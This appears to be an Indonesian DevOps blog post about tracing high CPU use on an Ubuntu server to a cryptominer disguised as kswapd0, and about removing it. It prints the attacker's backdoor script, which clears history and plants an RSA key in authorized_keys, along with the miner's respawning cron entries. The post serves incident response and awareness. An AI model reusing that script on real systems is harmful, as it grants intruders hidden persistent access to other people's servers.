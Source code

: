 ```yaml
---
title: How to Deal With High CPU Usage kswapd0 on Linux
lang: id-ID
description: High CPU Usage pada aplikasi kswapd0 bisa berarti SWAP atau bahkan Mining.
image: /images/covers/how-to-deal-with-kswapd0-on-linux.jpg
published: 09/30/2020, 10:55:23 AM
category: devops
author: Ryan Aunur Rassyid
tags: 
  - kswapd0
  - ubuntu
  - linux
  - debian
  - cpu
  - production
  - server
meta:
  - name: keywords
    content: kswapd0,ubuntu,linux,debian,cpu,production,server
feed:
  enable: true
---
```

# How to Deal With High CPU Usage kswapd0 on Linux

<Author name="Ryan Aunur Rassyid" />
<FeaturedImage 
  src="/images/covers/how-to-deal-with-kswapd0-on-linux.jpg"
  author="Jase Bloor"
  source="unsplash.com"
  sourceLink="https://unsplash.com/photos/By1VMCg3K4I" />

## Introduction
Beberapa waktu yang lalu penulis sempat menghandle Project yang menggunakan server fisik (bukan VPS). Server tersebut menggunakan Ubuntu 16.04 sebagai *Operating System*-nya. Namun OS yang dipakai tidak sama dengan OS yang penulis pakai setiap kali deploy VPS, padahal versi Ubuntu yang dipakai sama persis yaitu Ubuntu 16.04 tapi serasa seperti Debian. Banyak package package yang hilang atau tidak ada padahal package tersebut seharusnya ada di OS tersebut bahkan fresh install sekalipun. 

Aplikasi berjalan baik dan tanpa kendala, hanya saja berjalan agak pelan untuk ukuran server dengan prosessor 8 core tersebut. Seharusnya aplikasi berjalan lebih baik bukan?. Oke mulai mulai dari sini mulai curiga. Apakah server menjalankan aplikasi lain yang menyebabkan aplikasi lain tidak memiliki cukup resource yang dipakai atau aplikasi yang kita kerjakan memang lamban. Akhirnya investigasi dimulai.

## Table of Contents
[[toc]]

## Apa itu kswapd0?
Singkat cerita ditemukan akar masalahnya, yaitu aplikasi **kswapd0** yang berjalan menggunakan resource CPU 100% terus menerus. Ini sangat tidak wajar untuk aplikasi yang mengatur dan me-*manage* SWAP atau virtual memory pada Linux. Karena ini hal baru yang belum pernah penulis jumpai selama memakai SWAP di Linux, jadi penulis mencoba mengumpulkan informasi dari semua forum-forum apa itu *kswapd0* dan mengapa memakan resource CPU yang banyak.

Ada forum yang berpendapat bahwa kejadian ini adalah bug dari linux yang harusnya sudah di-fix di versi yang baru sedangkan ada beberapa orang berpendapat bahwa ini disebabkan oleh server yang menggunakan hardisk dari pada SSD sebagai SWAP sehingga CPU dan Hardisk dipaksa bekerja dengan semaksimal mungkin. Team memutuskan untuk upgrade versi package yang kadarluasa dengan menjalankan `apt get upgrade`. Dan bener saja banyak package yang diupgrade pada waktu itu. Namun ini tidak menuntaskan masalah, **kswapd0** tetap berjalan.

![kswapd0 terlihat berjalan di aplikasi monitoring htop](https://cdn.statically.io/img/telegra.ph/f=auto,q=100/file/2b542fc07f6a6a176c072.jpg)
*Aplikasi kswapd0 terlihat berjalan di aplikasi monitoring htop*

### What now?
Akhirnya kami putuskan untuk menghapus SWAP dari pada penggunaan CPU terus dipakai tanpa ampun. Setelah dihapus apakah masalah ini selesai? sayangnya tidak. Aplikasi tersebut masih berjalan bahkan tanpa adanya SWAP. Lalu apa sebenernya eksistensi dari aplikasi ini?. Akhirnya penulis putuskan untuk investigasi mendalam dan mencoba mengumpulkan informasi lagi di forum. Kali ini penulis mendapatkan secercah cahaya apa maksud dari semua ini. Setelah membaca log Cron Job yang mencurigakan akhirnya didapati pertanyaan yang related dengan masalah ini.

:::: preview https://askubuntu.com/questions/1161003/strange-cron-job-takes-up-100-of-cpu-ubuntu-18-lts-server

::: preview-content Strange Cron Job takes up 100% of CPU Ubuntu 18 LTS Server - Ask Ubuntu
I keep getting weir cron jobs showing up and I have no clue what they do. I typically issue kill -9  to stop them. They take up 100% of my CPU and can run for days until I check. Does anyone know w...

askubuntu.com
:::
::: preview-thumbnail https://cdn.sstatic.net/Sites/askubuntu/Img/apple-touch-icon@2.png?v=c492c9229955
:::
::::

Usut punya usut ternyata aplikasi tersebut adalah aplikasi **Crypto Mining**. Siapa sangka aplikasi ini bisa masuk pada sistem operasi linux yang baru di install. Aplikasi Crypto Mining sendiri adalah aplikasi yang menjalankan proses mining (memecahkan algoritma rumit) yang memerlukan sebuah resource khususnya CPU atau GPU. Keuntungan yang didapat dari mining adalah Cryptocurrency atau mata uang digital. Karena aplikasi ini berjalan tanpa izin dan dijalankan pada komputer atau server orang lain maka aplikasi ini termasuk tindakan yang merugikan orang lain. Aplikasi ini berjalan tanpa henti dan menggunakan semua resource CPU yang ada hingga 100% yang bisa memperpendek umur prosessor karena dipaksa melakukkan pekerjaan keras dalam waktu lama dan terus menerus.

### Menghapus aplikasi
Tidak ada faedahnya membuat aplikasi ini tetap berada di server. Alih alih membiarkan aplikasi tetap berjalan saya memilih untuk menghapus aplikasi ini. Sebelum itu saya lebih penasaran bagaimana aplikasi ini bisa masuk. Asumsi awal adalah aplikasi ini masuk dengan cara SCP atau transfer remote file melalui SSH. Kok bisa? bisa, karena di SSH folder `$HOME/.ssh/` ada file `authorized_keys` yang artinya orang bisa mengakses server kapan saja tanpa password karena Linux mempercayai sepenuhnya pelaku. Dan ini bisa terjadi karena OS yang di-install bukan dari OS resmi dari Ubuntu atau Debian dengan kata lain injected. File instalasi OS bisa saja di susupi script untuk membuat `authorized_keys` seperti berikut.

```bash
set +o history
export PATH=/home/user/.bin:$PATH
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod 700 .ssh && cd .ssh && chmod 600 authorized_keys && cd ~
```

Setelah pelaku sudah memiliki akses ke server kita melalui ssh, selanjutnya pelaku tinggal mengirim file mining tersebut ke server kita dan menjalankan nya dengan cron job. Kenapa cron job? karena disini aplikasi akan mendeteksi apakah aplikasi mining nya berjalan atau tidak. Apabila aplikasi dihentikan paksa dengan `kill -9 PID` misalnya, maka aplikasi akan kembali berjalan setelah beberapa menit. Dan jika file aplikasi di hapus maka secara otomatis aplikasi akan di sync untuk mendapatkan file crypto mining dan menjalankannya kembali. Terdengar menarik bukan.

```bash
1 1 */2 * * /home/user/.configrc/a/upd>/dev/null 2>&1
@reboot /home/user/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/user/.configrc/b/sync>/dev/null 2>&1
@reboot /home/user/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
```

Dan ini adalah struktur folder dari folder aplikasi tersebut disimpan `$HOME/.configrc`. Nama folder yang cukup meyakinkan untuk tidak di cek, karena kita akan berfikir bahwa folder ini mungkin bagian dari folder `.config` yang hanya berisi config dari aplikasi-aplikasi di linux.

```
.
├── a
│   ├── a
│   ├── bash.pid
│   ├── dir.dir
│   ├── init0
│   ├── kswapd0
│   ├── run
│   ├── stop
│   └── upd
├── b
│   ├── a
│   ├── dir.dir
│   ├── run
│   ├── stop
│   └── sync
├── cron.d
└── dir2.dir
```

Setelah aplikasi di berhentikan dan dihapus dari server, penggunaan resource CPU menjadi normal kembali. Untuk meyakinkan bahwa program tersebut sudah tidak aktif kembali dan semua file dan service sudah dihapus dan berhenti, kami menunggu untuk beberapa saat. Yes, aplikasi tidak berjalan kembali dan di monitoring system juga tidak nampak keanehan kembali.

### Virus Total
Kita pastikan kembali bahwa ini adalah aplikasi Crypto Mining dengan cara upload file **kswapd0** tersebut ke website [virustotal](https://www.virustotal.com/gui/file/fd9007df08c1bd2cf47fb97443c4d7360e204f4d8fe48c5d603373b2b2975708/detection). Hasilnya dipastikan bahwa ini bukan file **kswapd0** yang asli atau bawaan Linux melainkan aplikasi Crypto Mining.

![Hasil scan pada website VirusTotal.com](https://cdn.statically.io/img/telegra.ph/f=auto,q=100/file/9c9b44a1073398b6c30a5.png)
*Hasil scan pada website [VirusTotal.com](https://www.virustotal.com/gui/file/fd9007df08c1bd2cf47fb97443c4d7360e204f4d8fe48c5d603373b2b2975708/detection)*

## Kesimpulan
Sebuah aplikasi yang menggunakan resource berlebih apalagi CPU perlu kita curigai dan usut sampai tuntas apa yang menyebabkan ia menggunakan CPU dengan tidak normal seperti itu. Dalam kasus ini aplikasi bernama **kswapd0** ini menjelma menjadi sebuah aplikasi yang cukup *make sense* untuk menggunakan resource besar tapi *behavior* dari aplikasi ini sendiri tidak seperti pada umunya. 

Dari sini kita bisa mengambil pelajaran bahwa jangan langsung percaya dengan apa yang kita lihat. Sebelum ada bukti yang kuat kita tidak bisa mengatakan bahwa aplikasi ini baik baik saya dan berjalan sebagaimana mestinya. Bisa jadi aplikasi tersebut sedang menyamar menjadi aplikasi lain.

<Disqus />

